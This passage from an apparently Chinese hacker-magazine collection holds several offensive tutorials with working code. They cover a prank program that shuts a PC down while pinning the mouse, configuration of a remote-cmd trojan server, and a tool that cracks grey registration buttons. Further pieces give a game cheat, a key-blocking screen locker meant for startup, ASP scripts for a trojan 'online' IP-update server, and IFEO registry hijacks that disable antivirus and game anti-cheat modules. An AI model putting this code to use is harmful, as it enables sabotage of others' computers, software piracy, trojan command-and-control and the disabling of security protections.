下面再来一个比较狠的。首先要介绍的是 WinExec 函数，这个函数的作用是执行一个程序，参数有两个，一个是程序的路径，另一个是运行方式。大家都知道关机用的程序 shutdown 吧，我们可以这样用，`WinExec("shutdown -s -t 0",0);`。后面的参数 0 表示隐藏窗口执行。当然，这不是全部，我们还有一个更绝的函数 `SetCursorPos`，这个函数的作用是把鼠标定位到屏幕的某个位置，想象一下，如果循环执行会是什么效果。我写的代码如下：

```c
#include <stdio.h>
#include <windows.h>

int main(){
    ...
}
```

```c
WinExec("shutdown -s -t 10",1); // 注意
while(1){
    // 这是一个死循环
    SetCursorPos(0,0);   // 鼠标指针到(0,0)
    Sleep(1);            // 暂停
}
return 0;
```

当这个程序执行之后，效果是这样的。首先弹出了要关机的提示，然后鼠标不听使唤了，纳闷之际，关机了。

当然，还有其他很多的玩法，大家就尽情地玩吧。在 MSDN Lib 里还有很多更好玩的函数，喜欢恶搞的叉子可以尽管把它们找出来。阅读 MSDN Lib 既可以提高编程能力也能提高英语水平，何乐不为呢？至于本文中程序运行时的黑框框，大家就自己想办法处理吧。

## VB中配置方式的补充

上次，在杂志里看到的 VB 中的一些服务端配置方法，心里那叫一个激动啊，自己编的东西终于能像个东西了，赶紧试了试，却总是出现“类型不匹配”的错误。

我编的是远程 cmd 控制，程序本身没问题，就出在配置方法上。

先交代下配置方式：在服务端里加两个文本框，一个填 20 个 a，另一个填 5 个 b；配置器把服务端打开，找到 a 和 b 所在位置，并把域名和端口替换进去，代码如下：

```vb
Dim a As Byte
Open app.path + "\server.exe" For Binary As #1   '打开服务端
Seek #1, a所在位置          '找到20个a
Put #1, , text1.text        '写入ip地址
For i = 1 To 20 - Len(text1.text)
    S = 0
    Put #1, , S             '填充
Next
```

```vb
Close
```

大家可能也注意到了，只要 ip 地址小于 20 字节，在服务端里都是以“ip地址+空格”形式出现，当时作者配置的是下载者，网址后跟几个空格不构成影响，但 ip 地址和端口不同，只要后面或中间有空格，就会出现类型不匹配的错误。

要解决这个问题，说难也不难，只要用到 2 个函数：`instr` 和 `mid`，在服务端里添加两行代码即可。

代码如下：

```vb
c = InStr(text1.text, " ")      '找到空格位置
ipaddress = Mid(text1.text, 1, c) '从第一个字符截取到空格
```

这个方法只能说是笨办法中的小巧妙，谁叫咱只是小菜呢，如果有更好的办法，欢迎赐教。

## 黑客编程

## 黑客编程之灰按钮破解工具

HACKER120

说起软件的破解，想必各位黑叉的忠实读者心里都有自己定性的一套吧！大家可能会觉得，无非就是 OD 加载软件、查找特殊字符、修改重点跳转、F2 下断点、F7、F8 单步执行。不过我们这里有点特殊，我们不用工具；自己写工具来实现一类注册软件的破解，也就标题所说的另类了。

某些要注册的软件，为了可以吸引更多的用户，他会把部分更强大更好用的功能禁止掉，用户需要注册了，这些功能才可以用，也就是传说中的灰色按钮了。用 OD 来对付这种软件的破解我不会，不过如果用编程的方法，其实也简单的。

为便于演示，这里我也模拟了一个软件，借助 spy++ 也可以清楚地看到软件的结构了（如图1）。最后还要介绍一个 API，FindWindow() 该函数是用来获取顶层窗口句柄的，MSDN 中函数原型：

```c
HWND FindWindow(
  LPCTSTR lpClassName,
  LPCTSTR lpWindowName
);
```

也比较简单，只有两个参数，第一个指向一个窗口类名，可以通过 spy++ 获得；值得注意的是，MFC 下对话框类名都是以 # 开头加数字的组合，使用起来很不方便，这里我就把工程窗口类名修改成 text，至于如何修改，大家可以参考我的工程（工程我也打包了）或者在论坛找，方法我也已经发到论坛去了。


图1

所谓的灰色按钮只不过就是 Disable 属性被设置为 TRUE，所以只要我们把这个属性设回 FALSE 就可以实现软件的破解了。设置这个属性我们可以用 EnableWindow()。在 MSDN 中，这个 API 原型如下：

```c
BOOL EnableWindow(
  HWND hWnd,
  BOOL bEnable
);
```

有两个参数，第一个参数指向一个窗口句柄，第二个指向一个布尔类型的值，这里我们设成 FALSE 就行了，所以所有的问题都放在了灰色按钮窗口句柄的获取上面来。

获取指定窗口句柄我们可以用 FindWindowEx() 函数，不过这个 API 的第一个参数也是一个窗口句柄，问题又放在这个父窗口句柄的获取上面来了。读到这里大家可能都可以猜得到了，没错！这里我们需要取用逐层查找的方法！（这里我也不做多说明了，不懂的话，大家也可以参考我之前写的文章。）可是，毕竟软件不是自己写的，里面的结构我们谁也不清楚，不过我们可以借助第三方软件 spy++，为了方便演示……

该说明的也说明了，下面也是惯例的，粘贴出参考代码来（程序运行如图2）。


图2

在 Crack 按钮下面，我们直接创建一个线程就可以了，其他的事就交给线程函数了。

```cpp
void CtestDlg::OnBnClickedOk()
{
    // TODO: Add your control notification handler code here
    HANDLE hThread = CreateThread(NULL,0,CrackThread,NULL,0,NULL);
}
```

线程函数代码如下：```cpp
DWORD WINAPI CrackThread(LPVOID lParam)
{
    HWND hWnd = FindWindow(NULL, _T("TabCtrl"));
    if (hWnd == NULL)
    {
        AfxMessageBox(_T("获取父窗口句柄失败"));
        return 0;
    }

    HWND hWndA = FindWindowEx(hWnd, NULL, _T("SysTabControl32"), _T("0"));
    if (hWndA == NULL)
    {
        AfxMessageBox(_T("获取子窗口A句柄失败"));
        return 0;
    }

    HWND hWndB = FindWindowEx(hWndA, NULL, _T("CText"), NULL);
    if (hWndB == NULL)
    {
        AfxMessageBox(_T("获取子窗口B句柄失败"));
        return 0;
    }

    HWND bWndButton = FindWindowEx(hWndB, NULL, _T("Button"), _T("黑客按钮"));

    if (bWndButton == NULL)
    {
        AfxMessageBox(_T("获取按钮窗口句柄失败"));
        return 0;
    }
    EnableWindow(bWndButton, TRUE);
    return 0;
}
```

当然，在 CreateThread 之前我们还要先声明以下线程函数 CrackThread()。

这样一个灰色按钮破解工具就诞生了，不过这样的软件相当笨拙，或者说相当专业吧！因为上面的窗口类、窗口标题都已经写死了！能不能做一个万能的灰色按钮破解器呢？！可不可以一个工具就对付其他软件的灰色按钮呢？！答案是肯定的！这里我们再看看另外一个 API IsWindowEnable()，这个函数是用来判断窗口状态的，只有一个参数，就是一个窗口句柄。我们再来看几个 API：GetCursorPos()、WindowFromPoint()、GetClassName()。第一个函数是用来获取鼠标坐标的，第二个函数可以通过鼠标坐标获取到窗口句柄，最后一个函数就是获取窗口类名的（至于这些函数的原型还有详细用法，大家可以参考 MSDN 的解说，这里为了省黑X宝贵的版面，我就不多说了）。我们可以利用这几个函数来模拟 Spy++ 的功能，配上 EnumWindows() 还有 EnumChildWindows()，写出一个万能的灰色按钮破解软件，应该都不成问题了。这里就不给出代码了，就让各位编程爱好者自己回去试试吧，也当我留给大家的一个作业吧，呵呵（*^__^*）……

（文章中所涉及到的程序及代码已收录在光盘中）

## VB编写外挂进阶

### 一、前言

看 X 档案两年，菜鸟也当了两年。但作为高龄菜鸟，我觉得有必要拉一把低龄菜鸟。

找游戏本就是打发时间用，做外挂更是没意义，笔者只是想给刚入门菜鸟以外挂编写的例程，愿少走弯路。真脑残到找茬还开外挂的，这个程序已经满足不了你，建议上百度找找。编写程序当然要简单粗暴有效，外挂也是一样，用最少的表达式得出最好的结果自然最好。

### 二、编程开始

#### 1. 实地测量

○○大家来找茬游戏中，测量得两幅图的长宽分别为 380 和 285 像素。左图的起始点相对于找茬窗口左上角坐标为 (10,186)（注意 Windows 都是以左上角为坐标原点，向右 X 增加，向下 Y 增加），右图为 (403,186)。希望叉子还是自己测量下，推荐用截图软件，可放大看坐标。

#### 2. 句柄取得

取得找茬游戏的句柄很简单，用 `Fhwnd = FindWindow(vbNullString, "大家来找茬")` 将句柄保存到变量 Fhwnd 中。

#### 3. 各种调整

打开 VB 画好界面（如图1）。设 Form 的 BackColor 为白色，美观而已；边框样式 BorderStyle 设为 0。坐标度量单位 ScaleMode 设为 3-Pixel 像素。我们要直接将差异画到 Form 上，所以 Form 宽度 ScaleWidth 设为 380（即找茬图片的宽度），高度 ScaleHeight 比 285（找茬图片的高度）大，能放下下面的按钮即可。

为了方便，先将外挂界面放到屏幕最右上角，将找茬游戏放到最左面。

图1

```vb
Form_Load()中写入

Me.Top = 0  '屏幕顶端
Me.Left = Screen.Width - 380 * Screen.TwipsPerPixelX
'外挂界面右边缘紧贴屏幕右边缘。Screen.Width是取得屏幕的宽度（单位为缇），
'Screen.TwipsPerPixelX是取得屏幕每像素的缇（不同设置每像素对应的缇不同）。
```

然后移动找茬游戏：

```vb
Call MoveWindow(FhWnd, 0, 140, 800, 600, 0)
```

`0,140` 是坐标，`800,600` 是宽高。

#### 4. 差异提取

要得到两幅图的不同之处，用异或算法很简单，Windows API 里正好有可用来图片异或的函数 BitBlt，我们来看看函数原型：

BitBlt 可把源设备中的像素传送到目标设备。找茬游戏为源设备，外挂为目标设备。

```cpp
BOOL BitBlt(HDC hdcDest, int nXDest, int nYDest, int nWidth, int nHeight, HDC hdcSrc, int nXSrc, int nYSrc, DWORD dwRop);
```

hdcDest 为目标设备号，这里填 `Me.hDC`。  
nXDest、nYDest 为目标矩形区域的 x、y 坐标（这个坐标是相对于该设备而言的，而不是相对于屏幕），填 `0,0`。  
nWidth、nHeight 为矩形区域的宽度和高度，之前测得 `380,285`。  
hdcSrc 为源设备号，设备号不同于句柄，可以用 `GetDC(Fhwnd)` 得到相应设备号。  
nXSrc、nYSrc 为源矩形区域的 x、y 坐标（同样是相对于该设备），左图是 `10,186`，右图 `403,186`。  
dwRop 为光栅操作代码。拷贝图片缺省即可，异或则需要填写 `&H660046`。

图2

我们用 BitBlt 将找茬游戏的左图先复制到外挂界面，然后再用 BitBlt 将右图以异或的方式复制到外挂界面，这样右图和外挂界面上的底图（也就是刚复制的左图）就能比较出差异，显示在外挂界面上。

`Call BitBlt(Me.hDC, 0, 0, 380, 285, GetDC(FhWnd), 10, 186, vbSrcCopy)` 直接复制左图。  
`Call BitBlt(Me.hDC, 0, 0, 380, 285, GetDC(FhWnd), 403, 186, &H660046)` 异或方式复制右图。  

效果如图2，五个不同的地方很明显能认出来。

#### 5. 鼠标位置

差异有了，还需要能够接受用户的点击，将用户对外挂的点击模拟到游戏中去。首先要取到点击时鼠标相对于图片的位置，声明一个 xy 保存坐标。

```vb
Private Type POINTAPI
    x As Long
    y As Long
End Type
```

然后 `Call GetCursorPos(xy)` 将鼠标位置坐标保存到 xy 中。得到的 xy 是相对于屏幕的，需要转换。

`xy.x = xy.x - ((Screen.Width - 380 * Screen.TwipsPerPixelX) / Screen.TwipsPerPixelX)`；得到鼠标相对于外挂窗体的坐标，即相对于图片的坐标。  
`xy.x = 10 + xy.x`  
`xy.y = 186 + xy.y`，这里得到相对于找茬窗体坐标。

#### 6. 模拟单击

模拟一次单击可以用 PostMessage。在此之前还需将 xy 进行高低位转换等，匹配 PostMessage。

`lParam = xy.x + (xy.y * &H10000)` 将坐标进行高低位转换。  
`Call PostMessage(FhWnd, WM_LBUTTONDOWN, MK_LBUTTON, ByVal (lParam))` 向游戏窗体投递鼠标单击消息。

#### 7. 一些杂项

```vb
Form_Load()里，加入
ok = False
Timer1.Interval = 1000
```

Timer1 内容如下：

```vb
Private Sub Timer1_Timer()
    FhWnd = FindWindow(vbNullString, "大家来找茬")
    '取“大家来找茬”句柄

    If FhWnd <> 0 Then
        Timer2.Interval = 2000   '移动找茬游戏窗口
        '用延时两秒待游戏加载完毕
        ok = True
        Timer1.Interval = 0   '停止
    End If
End Sub
```

Timer2 内容如下：

```vb
Private Sub Timer2_Timer()
    Call MoveWindow(FhWnd, 0, 140, 800, 600, 0)
    '移动找茬游戏窗口
    Timer2.Interval = 0   '停止
End Sub
```

这样，外挂运行时 1 秒一次检测是否有找茬游戏，找到后停止寻找，设 ok 为 True，延时两秒移动找茬游戏窗体。

“更新按钮”和窗体被点击时加上判断 ok 是否为 True，以免出错。

```vb
Private Sub Command1_Click()   '“更新”按钮
If ok = True Then
    <略去差异提取代码>
Else
    MsgBox "请先开始游戏", 0, "提示"
End If
End Sub

Private Sub Form_Click()   '当外挂窗体被点击
If ok = True Then
    <略去模拟单击代码>
End If
End Sub
```

最后注意声明用到的 API 函数，代码较长，详见光盘。

### 三、后记

使用后效果不错，遗憾的是不能实现自动化，想了很久也没想出方法。希望叉子们多多探索，多多进步！

（文章中所涉及到的程序及代码已经收录在光盘中）

## 简单编程可完全透明加“透明锁”

花的神明

提起程序设计，大家都会想到 ASP.Net、Java、JSP、Visual C++、Delphi 等“大块头”开发工具。的确，这些专业开发工具功能强大，能够开发出复杂的程序。但是要想深入掌握这些专业开发工具，并灵活地设计专业的程序可不是一件轻松的事情。俗话说，尺有所短，寸有所长，对于初学者来说，如果想快速设计简单实用的程序，又不想大费周章地学习专业开发工具，那么 AutoHotKey 这款小巧的开发工具就是您不错的选择。同大型开发工具相比，AutoHotKey 区区几兆的体积显得“娇小玲珑”，不过其强悍的程序设计功能却让人不能小觑。AutoHotKey 简单易学，尤其对于系统编程最为实用；您只需记事本就可以快速开发出专业实用的程序来。其很大的优点是实现编译操作，让程序可以独立运行，用来开发绿色软件再合适不过了。接下来，我们就通过实例来领略 AutoHotKey 的魅力吧。下载地址：http://home.tampabay.rr.com/kodi/ahk/AutoHotkeyInstall.exe

```ahk
; 使本程序窗口没有系统菜单、边框、标题栏等
Gui Font, s12
; 设置本程序窗口字体大小为12
Gui Add, Text, cFFFFFF x15 y15, 系统已经被锁定，请输入正确密码解锁
; 在本程序窗口左上角显示提示信息
Gui Show, w%A_ScreenWidth% h%Height%, Lock3d
; 设置本程序窗口标题并显示本窗体
WinSet Transparent, 100, Lock3d
; 将本程序窗口的透明度设置为100（范围从1到255）
```

### 一、编写脚本

我们这里开发有趣的系统锁定程序，同一般的锁屏程序不同，其具有两个特点：其一是界面新颖，可以产生透明变色锁定效果；其二是解锁方式特殊，采用的是多键位同时点击的解锁方式，其优点是您可以任意组合字母键、数字键、鼠标键，以及各种控制键，让别人无从破解。使用 AutoHotKey，我们只需编辑区区几行程序，就可以实现上述复杂的功能。打开 Windows 资源管理器，任选一个文件夹，在空白处点击右键，在弹出菜单中依次选择菜单“新建”→“AutoHotkey Script”，在当前路径下新建一个 AutoHotKey 脚本文件，将其改为合适的名字（例如“LockPC.ahk”）。在该文件的右键菜单中选中“Edit Script”，打开脚本编辑器（实际上是记事本），在脚本每行窗口开头处按回车键另起一行，输入以下脚本（如图1）。

```ahk
SetBatchLines -1
; 强制本程序持续运行，禁止进入休眠状态
#NoTrayIcon
; 在系统托盘中隐藏本程序图标
Height:=A_ScreenHeight+10
; 取得当前屏幕高度值并加10作为本程序窗口高度
Gui -SysMenu
WinSet AlwaysOnTop, On, Lock3d
; 将本程序窗口置顶显示
SetTimer Check, 0
; 激活名称为Check的定时器，并让其无间隔运行
SetTimer Color, 500
; 激活名称为Color的定时器，并让其每隔500毫秒运行一次

Color:
; Color定时器程序代码
Random Rand, 99999, 9999999
Gui, Color, %Rand%
; 随机设置本程序窗口的颜色

Check:
; Check定时器代码
if (GetKeyState("c") && GetKeyState("x") && GetKeyState("1"))
    goto GuiClose
if WinExist("ahk_class #32770")
{
    WinHide ahk_class #32770
    z=1
}
return

*E::
*Esc::
*Tab::
*F4::
*RButton::
*LButton::
*MButton::
*LWin::
*RWin::
*Alt::
*Up::
*Down::
*Left::
*Right::
*Space::
*0::
*F1::
Return
; 以上程序段作用是屏蔽各种控制键，防止非法结束本锁定程序

GuiClose:
if z = 1
    WinShow ahk_class #32770
ExitApp
; 以上代码是显示真实桌面并结束本程序
```

图1

### 二、程序原理介绍

之后保存该“LockPC.ahk”文件即可。为了便于分析程序，在所有的代码行底部都添加注释语句。在 AutoHotKey 中，使用分号来标识注释语句。该程序的运行原理非常简单：首先创建一个和桌面大小相同的、没有边框和标题栏的窗口，并且可以设置本程序窗口的透明度；之后将本程序窗口设置为最顶端，覆盖在所有桌面窗口之上。这样让桌面看似透明，实际上本程序已经取得了系统的控制权。之后激活两个定时器程序，其中名称为“Check”的定时器作用是不断检测是否按下预设键位，如果按下的话，可以为系统解锁；“Color”定时器的作用是每隔500毫秒将窗口颜色随机设置，产生透明变色的锁定效果。为了防止别人使用各种控制键退出本程序，还对各种系统控制按键进行了屏蔽。

### 三、程序的编译运行

在该“LockPC.ahk”文件的右键菜单上点击“Compile Script”项，执行该脚本的编译操作，之后在同一路径下生成“LockPC.exe”文件。该程序可以独立运行。当运行该程序后，系统立即被锁定，同时让 Windows 桌面产生透明变色的效果，只有按下预设组合键位（本例为同时按下“c”“x”“1”键，您可以任意修改按键组合），才可以为系统解锁。本程序可以屏蔽常用的控制键，防止别人非法解锁。为了防止别人重新开机，最好将程序放置到系统启动项中，让系统启动后自动锁定。

### 四、关键程序行分析

在以上程序中已经添加了比较详细的注释，理解起来很容易，下面只对关键的程序行进行单独讲解。

在第3行中的“A_ScreenHeight”关键字代表屏幕的高度（但不包括任务栏），将其加上10来设置本程序窗口高度，这样可以让本窗口完成覆盖整个屏幕。

从第4行到第7行用来设置本程序窗口的特征，包括取消系统菜单，设置本程序字体为12，在本程序左上角添加提示信息，以及显示本程序窗口等。其中使用到了“Gui”函数，该函数是 AutoHotKey 的关键函数之一，功能很复杂，带有很多参数，这里仅仅使用了其一些常用参数。例如“Gui -SysMenu”语句表示禁用系统菜单，其中的“-”号表示禁用某项功能。

“Gui Font, s12”语句作用是设置本窗口字体大小，在“s”字符后面跟随字体大小，这里为12；“Gui Add, Text, cFFFFFF x15 y15, 系统已经被锁定，请输入正确密码解锁”语句的作用是在本窗口预设位置显示提示文本信息。其中的“Add”参数表示添加对象，“Text”参数表示添加的对象为文本，“cFFFFFF”表示文本颜色，其中的“c”符号后面跟随具体的颜色值。“x”“y”参数后面跟随文本显示的坐标点。“Gui Show, w%A_ScreenWidth% h%Height%, Lock3d”语句用来显示本程序，其中的“Show”参数表示让本程序窗口真正显示，“w”“h”参数用来指明本程序窗口的宽度和高度，“A_ScreenWidth”关键字代表屏幕宽度，其前后两个“%”表示该关键字的数值。“Lock3d”表示本窗口的标题名。

第8行“WinSet Transparent, 100, Lock3d”语句的作用是设置本程序窗口的透明度。“WinSet”函数可以设置指定窗口的各项参数；“Transparent”参数用来设置目标窗口的透明度；其后面跟随透明度参数，范围从1到255，依次实现从完全透明到完全不透明，您可以按需要进行设置。本例设置为100，产生半透明效果。最后一个参数是目标窗口的名称，这里的“Lock3d”就是本程序窗口标题名。第9行“WinSet AlwaysOnTop, On, Lock3d”语句的作用是将本窗口置顶显示，“AlwaysOnTop”参数表示执行置顶操作，“On”参数表示激活窗口置顶功能，最后面跟随目标窗口标题名。第10和第11行设置了两个定时器，其中“SetTimer”函数用来设置定时器，后跟定时器名称和间隔时间。

第13行到第15行表示“Color”定时器的代码，其中“Color:”表示该定时器的运行起点，注意其后面必须跟随“:”符号，当遇到 Return 关键字或者下一个定时器标签后表示本定时器代码结束。语句“Random Rand, -99999, 9999999”的作用是从 -99999 到 9999999 中随机取数，其中“Random”函数用来产生随机数，“Rand”参数保存取得的随机数，“-99999, 9999999”表示随机数取值范围。语句“Gui Color, %Rand%”的作用是将取得的随机数设置为本程序窗口的颜色，因为该定时器每隔500毫秒运行一次，因此会产生窗口变色的动态效果。

第17行“Check:”语句设置“Check”定时器标签，其中 `if (GetKeyState("c")) && (GetKeyState("x")) && (GetKeyState("1"))` 语句用来判断是否同时按下预设按键，这里为同时按下“c”“x”“1”键。其中 `GetKeyState("按键名称")` 用来取得目标键是否处于按下状态；如果按下就返回“True”，否则为“False”。当然，这里只是简单举例，您可以任意设置自己所需的按键组合，AutoHotKey 支持的键位列表可以参见帮助文档。例如 `if (GetKeyState("c")) && (GetKeyState("x")) && (GetKeyState("RButton")) && (GetKeyState("LButton"))` 语句可以判断是否按下“c”“x”、鼠标左键和鼠标右键；`if (GetKeyState("c")) && (GetKeyState("x")) && (GetKeyState("Enter")) && (GetKeyState("Backspace"))` 语句可以判断是否按下“c”“x”、回车和退格键。因为键盘上的按键众多，可以产生成百上千的键位组合，想破解几乎不可能。

第19行“goto GuiClose”跳转到“GuiClose”标签处，用来关闭本锁定程序。第20行到25行用来检测桌面是否激活，如果激活的话就将其隐藏，防止别人随意解锁。其中“IfWinExist”函数用来检测目标窗口是否存在，“ahk_class #32770”用来设定窗口类名，其中“#32770”表示桌面窗口句柄。“WinHide”函数用来隐藏桌面。当桌面隐藏后，将变量 Z 的值设置为1。从27行到44行用来屏蔽常用的控制键（例如“Ctrl+Alt+Delete”“Alt+Tab”等），防止别人非法结束本锁定程序。这里列举了很多常用控制键，注意其中的“*”符号，该符号和目标热键组合使用，表示通配键位，例如“*Tab::”就表示所有和“Tab”关联使用的按键组合，例如“Alt+Tab”“Ctrl+Alt+Tab”等等，这样可以产生批量控制按键的作用。当然，这里只是列举了常用的屏蔽键，您可以将所有需要屏蔽的按键添加进来，具体的键位名称可以参见 AutoHotKey 帮助文档。实际上，这里的程序已经可以屏蔽几乎所有的控制键。注意在热键后面必须跟随“::”符号，表示当该键按下后执行处理语句。这里没有任何语句，只包含“Return”关键字，表示当按下以上控制键时不执行任何操作，从而实现屏蔽按键的效果。

第46到49行表示退出代码。当按下预设键位后，执行该处语句；“if Z = 1”语句表示桌面是否隐藏，如果隐藏的话，使用“WinShow ahk_class #32770”语句显示桌面；“WinShow”函数表示显示目标窗口。最后使用“ExitApp”结束本程序，完成解锁。

（文章中所涉及到的程序及代码已收录在光盘中）

## ASP脚本之通用木马上线

寒冬飞雪

各位叉子看了这么久的文，想必都成了养殖大户了吧，各式各样的远控木马也玩过不少了。菜菜我最近遇到了这样一个头疼的问题——用两种木马“管理”了两个主机。其实我也不想这样的，但是没办法……然后每次“管理”都要更新两次IP，好麻烦。

怎么办呢？想到了X提供的木马上线系统，照着弄一个呗。

首先，当然是创建一个用来存放更新IP的Access数据库。新建一个“Access 2000”数据库，然后新建一张表，名为IP，添加字段：id（自动增长）、user、pass、ip。除了id字段之外，全是文本型。

首先，我们需要一个连接数据库的脚本conn.asp，内容如下：

```asp
<%
dim conn,constr,dbpath

dbpath="\IP.mdb"  ' 变更数据库位置请改这里

constr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(dbpath)
set conn = Server.CreateObject("ADODB.Connection")
conn.Open constr
%>
```

其次，为安全起见，我们需要一个md5加密函数，直接从网上DOWN一个md5.asp就ok。接着，我们就要写更新用的up.asp。我写的版本内容如下：

```asp
<!--#include file="conn.asp" -->
<!--#include file="md5.asp" -->
<%
dim user,pass,ip
user = request("user")
pass = request("pass")
ip = request("ip")

if user<>"" and pass<>"" then
  user = "'" & md5(user,16) & "'"
  pass = "'" & md5(pass,16) & "'"
  if ip="" then
    ip = "'" & request.ServerVariables("REMOTE_HOST") & "'"
  else
    ip = "'" & ip & "'"
  end if

  conn.Execute("update ip set ip=" & ip & " where user=" & user & " and pass=" & pass)
  response.write("<h1>OK</h1>")
else
  response.write("<h1>更新失败<br>缺少参数</h1>")
end if
set conn=nothing
%>
```

结合注释，大家应该很容易理解这个脚本的工作过程。需要注意的是前两行包含的“头文件”，即刚准备的两个asp文件就这样包含进来使用就可以了。其次，大家看过很多网站注入的文章，一定知道对数据库查询命令执行之前的敏感字符过滤是很关键的。曾听说过某盗号木马用的asp收信文件存在漏洞，导致了web空间的沦陷，可见这有多危险。因此本着安全和懒惰的态度，我直接把用户名和密码一起md5了，什么过滤之类的通通不管了。不过在数据库添加东西的时候要注意了，用户名也要用md5存储。为了防止爆破，没有密码正确的提示，只要输入了，都会提示ok。

接下来就是关键的get.asp了，上代码：

```asp
<!--#include file="conn.asp" -->
<!--#include file="md5.asp" -->
<%
dim user,ip,format
user = request("user")
format = request("format")
if user <> "" and format <> "" then
    user = "'" & md5(user,16) & "'"
    set rs = conn.Execute("select ip from ip where user=" & user)
    response.write(replace(format,"ip",rs.fields(0)))
    set rs = nothing
end if
set conn = nothing
%>
```


然后试试自动获取IP更新（图3、图4）。


代码很简单，注意很关键的那句，用字符串替换函数把format变量里的“ip”串替换成了数据库中保存的IP地址。代码到此结束，下面开始检验劳动成果。先试试自定义IP更新（图1、图2）。

因为我是在虚拟机里搭建的本地环境，所以更新的是内网地址，在服务器上的话更新的就是你连接服务器时的地址。我的需求就这么多，就不再继续完善了。有些叉子可能希望有一个在线的注册页面，或者有些木马可能还有一个上线端口问题，这个就自由发挥吧，总之思路就是这样。

## 从AV终结者到映像劫持

近日微软宣布将安全补丁KB971029提升为“高优先级”，用于彻底关闭Windows XP及Vista系统的U盘“自动运行”（AutoRun）功能；而AutoRun正是U盘病毒在不同电脑间交叉感染的主要途径。尚记得开始接触计算机安全技术的几年，U盘病毒泛滥之势一如当下铺天盖地的特洛伊木马……但熊猫烧香的硝烟尚未散尽，一种名为AV终结者的病毒便频频肆虐，再一次横扫了网络。

AV终结者（Anti-virus Killer）又称盗号寄生虫、帕虫、随机字母数字病毒，该病毒主要行为是：

- 1. 禁用所有杀毒软件及相关安全工具，让用户电脑失去安全保障；
- 2. 破坏安全模式，致使用户根本无法进入安全模式清除病毒；
- 3. 强行关闭带有“病毒”字样的网页，只要在网页中输入“病毒”相关字样，网页就被强行关闭，即使是一些安全论坛也无法登录，用户无法通过网络寻求解决办法；
- 4. 在各磁盘根目录创建可自动运行的exe程序和auto-run.inf文件，一般用户重装系统后，会习惯性地双击访问其他盘符，病毒将再次被运行；

其他的不再赘述，今天我们便来讲下如何用映像劫持来禁用安全软件。

映像劫持（IFEO，Image File Execution Options）是为一些在默认系统环境中运行时可能引发错误的程序执行体提供特殊的环境设定。由于这个项主要是用来调试程序用的，对一般用户意义不大。默认是只有管理员和local system有权读写修改。当一个可执行程序位于IFEO的控制中时，它的内存分配则根据该程序的参数来设定，而Windows NT架构的系统能通过这个注册表项使用与可执行程序文件名匹配的项目作为程序载入时的控制依据，最终得以设定一个程序的堆管理机制和一些辅助机制等。出于简化原因，IFEO使用忽略路径的方式来匹配它所要控制的程序文件名。

举个例子来说：你在电脑上安装了卡巴斯基，不慎中了AV终结者，病毒就会在IFEO中将卡巴斯基的主程序改为病毒，且IFEO使用忽略路径的方式来匹配所要控制的程序文件名，所以卡巴斯基无论安装在哪个路径，只要名字没有变化，卡巴斯基就无法启动。每当试图运行卡巴斯基时，系统会优先检查IFEO并按照其中的设定去启动病毒而不是卡巴斯基。

这究竟是如何实现的呢？猜我会给出一大串又臭又长的源代码，还是会贴出几十幅图片？不，不，都不是，我们需要的仅仅是一个注册表键值那么简单。

将以下键值输入注册表即可：

```reg
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\avg.exe]
"Debugger"="virus.exe"
```

其中avg.exe是卡巴斯基主程序，virus.exe是病毒。

这样一来我们启动卡巴斯基的时候实际上启动的是病毒。但是这个方法缺点也很明显：只从文件名进行判定，改个名字就罢了（前提是你的杀软不涉及互斥体）。

鉴于现在这个病毒的专杀早已出现，这里就不详细介绍如何清除了（把键值删掉就可以交给杀软了）。接下来我们聊聊这个东西还能怎么用。

由于AV终结者曾造成的严重影响，该注册表区已被众多安全软件列为重点监控对象，所以映像劫持用于攻击已经基本失效。但我们要知道事物都有它的两面性，既然可以被病毒用来对付杀软，我们当然也可以用它来对付病毒。

现在有些木马病毒为了增加清除难度会创建多个进程守望相助。其中一个被关闭，其余的便会立刻重启该关闭的进程。如果没有专业工具想要清除这样的木马病毒是很困难的（某些情况可以尝试结束进程树，但请慎重行事）。

我们假设你的机器中了一支木马。经检查病毒有Trojanhorse1.exe与Trojanhorse2.exe两个进程，但两个进程互相保护，结束其中一个瞬间就会被另一个重启。但此时你手上并无称手的兵刃，正在一筹莫展。不过没关系，赤手空拳我们一样可以干掉它。先准备一个小程序（当然如果你喜欢看层层叠叠的报错窗口也可以不准备，但如果准备的话一定要用小巧的，否则，嘿嘿），我们这里选用命令行。将下面的代码写入文本文档，并将文件后缀由.txt改为.reg并双击导入注册表。

```reg
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Trojanhorse1.exe]
"Debugger"="cmd.exe"（准备的小程序，如果没准备就留空）

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Trojanhorse2.exe]
"Debugger"="cmd.exe"（为防止木马再启动第三个进程，干脆把这两个都劫持掉，有备无患；使用的时候记得把小括号及其中的注释文字删掉）
```

导入注册表之后就可以在任务管理器中结束病毒进程了，但请动作快点，否则就有可能被层层叠叠的命令行窗口或报错窗口埋掉。而且如果你刚才选的是一个较大的程序，那么你面临的就是死机的威胁了。把病毒进程结束掉之后处理起来就容易多了，这里就不赘述了。

以上只是个例子，实际运用起来还有很多的用法。比如某个恶意软件开机启动无法禁止，干脆就劫持它，省时又省力。比如说TX的安全模块要流氓，那也劫持掉好了，反正我们又没有删除文件，TX只能干瞪眼。

再比如一些游戏会在运行的同时启动内置安全模块（比如TX的TP、世纪天成的hackshld以及众多来自宇宙第一强国的游戏携带的各种安全模块），用于检测用户的非法行为（大家都明白）。安全模块会随游戏主程序启动并检测系统环境；如果有异常就关闭游戏主程序。如果一切正常就生成一份安全报告给游戏主程序来授权运行（也有的是报忧不报喜，或生成检测报告文件而不是直接进行程序间通信，这样的比较好对付）。

之后就在后台默默运行，时刻准备给进行非法操作的玩家念出六字真言（网络连接中断）。对于这些安全检测模块可以使用映像劫持的方法：先正常开启一遍（必要），并记下该模块的进程，将该组件劫持。如果这款游戏是我说的那两种比较好对付的类型，就可以在安全模块未启动的情况下玩了，想干什么就干什么。

如果是进行程序间通信，那么就需要使用工具截获其中的通信内容，而且那样的安全检测模块绝不会只通信一次，这就需要你有足够的耐心来收集通信内容，然后编写一个小程序来模拟该游戏的安全检测模块就行了（大部分游戏都会进行文件校验，所以一定不要动原有文件，而是用映像劫持的方式将对安全检测模块的启动命令映射到编写的小程序上）。

